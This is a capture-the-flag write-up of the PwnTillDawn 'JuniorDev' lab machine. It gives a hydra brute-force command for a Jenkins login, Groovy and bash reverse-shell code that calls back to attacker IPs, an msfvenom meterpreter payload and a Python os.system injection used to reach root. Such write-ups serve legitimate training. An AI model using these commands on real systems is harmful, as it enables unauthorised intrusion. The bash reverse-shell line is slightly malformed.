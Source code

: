 ```yaml
---
title: JuniorDev Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 11:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, jenkins, portfwd, python]
math: true
mermaid: true
image:
  src: https://imgur.com/Yfejewk
  width: 800
  height: 500
---
```


![info](https://imgur.com/Yfejewk)

**> Information Gathering**<br>
Started with the usual nmap scan and from the scan we can see active ports. port 22 (ssh) & port 30609 (jetty 9.4.27).<br>
![nmap](https://imgur.com/xj9yFz2)

<br>
Upon visiting the web service running on port _30609_, i found a login screen.<br>

![web](https://imgur.com/klt9dCX)


Since we dont have any credentials, the best option is to *bruteforce* the target web login. Below is the hydra command used<br>
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"`<br>
![hydra](https://imgur.com/klt9dCX)<br>

Hydra yield positive results. We have found the password for the admin user. The next step is to login on jetty webapp running on port 30609. *username == admin* & *password == matrix*<br>
![login](https://imgur.com/OSvL3Nt)<br>
     

The credentials worked we are logged in now.<br>
![logged in](https://imgur.com/uCw0l30)<br>

After a short googling on how to abuse jenkins script console to rce we found a good post from <a href="https://github.com/gquere/pwn_jenkins">gquere</a>. With this information, we were able to build a script to test remote code execution on the target. <br>
![test-rce](https://imgur.com/6WADwED)<br>


Now  that we can execute commands on the target, its time to spawn a reverse shell. Below is the script I used.
```shell
String host="10.66.67.114";  
int port=9001;  
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
<br>
![reverse-shell](https://imgur.com/jIE48Vg)<br>


**> Post Exploitation**<br>
After i got a shell, post enumeration phase begins. I transfered linpeas to the target, changer permissions and executed linpeas. In linpeas output, i found a port binded to the _loopback address(127.0.0.1:8080)_.<br>
![lo address](https://imgur.com/pGmvFM4)<br> 

Port 8080 is mostly used for web services. To confirm, i tried `wget` on the ort since `curl` is not found on the target.<br>
![lo address](https://imgur.com/0hk2eI3)<br>

Reading the fetched `index.html` from port 8080 indicates that there is a web webapp running internally.<br>
![contents index](https://imgur.com/t2gkbU0)<br>

To access this internal web service, we have to port-forward port 8080 from the target to our attacking machine. To do this, i created a linux payload using `msfvenom`. <br>
``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=9002 -f elf -o 9002msf``<br>
![msfvenom](https://imgur.com/ucnPApI)<br>

The next thing to do is to transfer the payload to the target and execute it while msfconsole is listerning fortrt incoming connections.<br>
![payload transfer](https://imgur.com/N10E0gV)<br>

When the payload is executed on the target, we should recieve a connection back on `msfconsole`. Once the connection is in, we can port-forward the target intertnal port `8080` to our attacking machine using the `portfwd`command in msfconsole<br>
`portfwd add -l 8080 -p 8080 -r 127.0.0.1`<br>
![msfshell portfwd](https://imgur.com/hZfURL1)<br>

Now that we the target port `8080` connected back to our attacking machine, wehn visited, we found a python maths console.<br>
![internal web](https://imgur.com/fqWLB5U)<br>

Since it's a simple python maths calculator, we can easily bypasss the pythin functions and gain a remote code execution. To do this, we will use `__import__("os").system("")`<br>

We created a bash file with contains our bash reverse liner. a simple bash script, transfered the bash file to the target. 
```shell
#!/bin/bash
bash -c  'bash -i&/dev/tcp/10.66.66.78/9002 0>&1'
```
<br>

Once our bash file is on the target, we can execute the bash file using the pythin calculator. We simply do this using the command
`__import__("os").system("/bin/bash /tmp/shell.sh")`<br>
![root-shell](https://imgur.com/3MnjYsn)